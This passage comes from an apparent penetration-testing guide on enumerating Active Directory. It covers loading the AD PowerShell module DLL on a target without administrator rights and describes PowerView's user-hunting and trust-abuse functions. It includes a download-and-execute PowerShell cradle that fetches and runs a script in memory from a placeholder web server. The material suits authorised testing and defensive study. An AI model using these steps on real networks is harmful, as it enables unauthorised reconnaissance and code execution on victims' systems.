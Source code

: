 While the `RSAT` requires Administrator level-privileges to be installed, the
`DLL` `Microsoft.ActiveDirectory.Management.dll` can be directly imported from
an unprivileged user session. The `DLL` is usually located at the following
path:
`%SystemRoot%\Microsoft.NET\assembly\GAC_64\Microsoft.ActiveDirectory.Management\[...]`
on a system with the `RSAT` installed.

Note however that all objects properties will not be retrieval following a
direct import of **only** the `Microsoft.ActiveDirectory.Management.dll`. This
can be addressed by importing the PowerShell Active Directory `module manifest`,
with the necessary files available, after importing the module `DLL`. The files
are usually located in
`%SystemRoot%\System32\WindowsPowerShell\v1.0\Modules\ActiveDirectory\`.

Once the `DLL` has been uploaded to the target, or made accessible on a network
share, the Active Directory module can be imported:

```bash
# PowerShell Active Directory module DLL.
# Copied from %SystemRoot%\Microsoft.NET\assembly\GAC_64\Microsoft.ActiveDirectory.Management\vXXX\Microsoft.ActiveDirectory.Management.dll
Import-Module <PATH\Microsoft.ActiveDirectory.Management.dll>

# PowerShell Active Directory module manifest.
# Required files: ActiveDirectory.Format.ps1xml, ActiveDirectory.psd1, and ActiveDirectory.Types.ps1xml.
# Copied from %SystemRoot%\System32\WindowsPowerShell\v1.0\Modules\ActiveDirectory\.
Import-Module <PATH\ActiveDirectory.psd1>

# Necessary for some cmdlets, notably Get-Acl / Set-Acl - requires to be executed in a domain authenticated security context
New-PSDrive -Name AD -PSProvider ActiveDirectory -Server "<DC_IP>"
```

The [`Import-ActiveDirectory.ps1`](https://github.com/samratashok/ADModule)
PowerShell script, in-lining the `Microsoft.ActiveDirectory.Management.dll`,
may also be used to import the Active Directory module:

```
# In memory injection of the Microsoft.ActiveDirectory.Management.dll.
IEX (new-Object Net.WebClient).DownloadString('http://<WEBSERVER_IP>:<WEBSERVER_PORT>/Import-ActiveDirectory.ps1'); Import-ActiveDirectory
```

###### PowerSploit PowerView

`PowerView` is a PowerShell tool to gain network situational awareness on
Windows domains. It contains a set of pure-PowerShell replacements for various
windows "net" commands, which utilize PowerShell AD hooks and underlying Win32
API functions to perform useful Windows domain functionality.

It also implements various useful metafunctions, including some custom-written
user-hunting functions which will identify where on the network specific users
are logged into. It can also check which machines on the domain the current
user has local administrator access on. Several functions for the enumeration
and abuse of domain trusts also exist.
